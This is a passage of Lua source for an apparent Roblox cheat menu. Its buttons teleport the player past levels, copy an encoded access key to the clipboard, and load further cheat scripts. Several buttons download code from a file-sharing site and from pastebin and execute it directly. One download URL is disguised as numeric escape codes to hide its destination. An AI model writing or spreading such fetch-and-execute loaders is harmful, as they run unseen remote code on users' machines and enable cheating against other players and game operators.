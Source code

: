   Callback = function ()

loadstring(game:HttpGet("\104\116\116\112\115\58\47\47\97\121\97\110\103\119\112\46\99\110\47\97\112\105\47\118\51\47\102\105\108\101\47\103\101\116\47\57\48\55\54\47\37\69\55\37\65\57\37\66\54\37\69\54\37\57\69\37\56\49\37\69\55\37\56\57\37\57\66\37\69\57\37\56\48\37\66\67\37\69\55\37\57\65\37\56\52\37\69\57\37\57\55\37\65\56\46\116\120\116\63\115\105\103\110\61\53\95\86\100\118\87\54\111\65\102\109\105\114\95\52\80\101\70\84\54\80\84\90\121\110\82\84\79\111\54\49\82\81\84\90\109\115\103\65\95\71\68\48\37\51\68\37\51\65\48"))()

  end

})

Tab:AddButton({

  Name = "陈",

  Callback = function ()

loadstring(game:HttpGet("https://pastebin.com/raw/QxDD9SpW"))()

  end

})

Tab:AddButton({
	Name = "复制卡密",
	Callback = function()
     setclipboard("U2FsdGVkX1/gbhCW+xDOFYcV1pydxb/ni+9cAk72+WM=")
  end
})

Tab:AddButton({

  Name = "跳过50关",

  Callback = function ()

local CurrentDoor = workspace.CurrentRooms[tostring(LatestRoom+1)]:WaitForChild("Door")
game.Players.LocalPlayer.Character:PivotTo(CF(CurrentDoor.Door.Position))

  end

})

local Tab = Window:MakeTab({

	Name = "伐木",

	Icon = "rbxassetid://394647608",

	PremiumOnly = false

})

Tab:AddButton({

  Name = "nb伐木",

  Callback = function ()

loadstring(game:HttpGet("https://ayangwp.cn/api/v3/file/get/9185/nb%E8%84%9A%E6%9C%AC%E4%BC%90%E6%9C%A82%28%E6%BA%90%E7%A0%81%29%20%281%29.txt?sign=lANH0rtfOnXCwqPPn9G0ATfTSFV5PSgxtwS-matuHGo%3D%3A0"))()
